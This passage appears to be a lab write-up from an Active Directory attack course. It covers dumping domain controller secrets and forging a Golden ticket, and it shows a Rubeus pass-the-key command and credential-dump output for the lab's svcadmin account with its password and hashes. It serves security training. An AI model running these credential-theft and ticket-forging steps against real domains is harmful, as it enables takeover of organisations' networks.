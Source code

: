 ```yaml
---
description: Learning Object 8
icon: vial
---
```


# 8 - LO8️

## Tasks



1 - Extract secrets from the domain controller of dollarcorp

2 - Using the secrets of krbtgt account, create a Golden ticket

3 - Use the Golden ticket to (once again) get domain admin privileges from a machine

Flag 16 \[dcorp-dc] - NTLM hash of krbtgt  🚩

Flag 17 \[dcorp-dc] - NTLM hash of domain administrator - Administrator 🚩



## Solutions

### 1 - Extract secrets from the domain controller of dollarcorp

Starting to previous learning object 7 lab, we've already domain admin privileges, let's extract all the hashes on the domain controller (the command need to be executed from a process running with privileges of DA on the student VM).

Starting opening a new cmd as administrator and starting a new process as svcadmin's user:

```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

```bash
Authentication Id : 0 ; 86511 (00000000:000151ef)
Session           : Service from 0
User Name         : svcadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/10/2025 9:28:52 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1118

         * Username : svcadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : *ThisisBlasphemyThisisMadness!!
         * Key List :
           aes256_hmac       6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
           aes128_hmac       8c0a8695795df6c9a85c4fb588ad6cbd
           rc4_hmac_nt       b38ff50264b74508085d82c69794a4d8
           rc4_hmac_old      b38ff50264b74508085d82c69794a4d8
           rc4_md4           b38ff50264b74508085d82c69794a4d8
           rc4_hmac_nt_exp   b38ff50264b74508085d82c69794a4d8
           rc4_hmac_old_exp  b38ff50264b74508085d82c69794a4d8
```
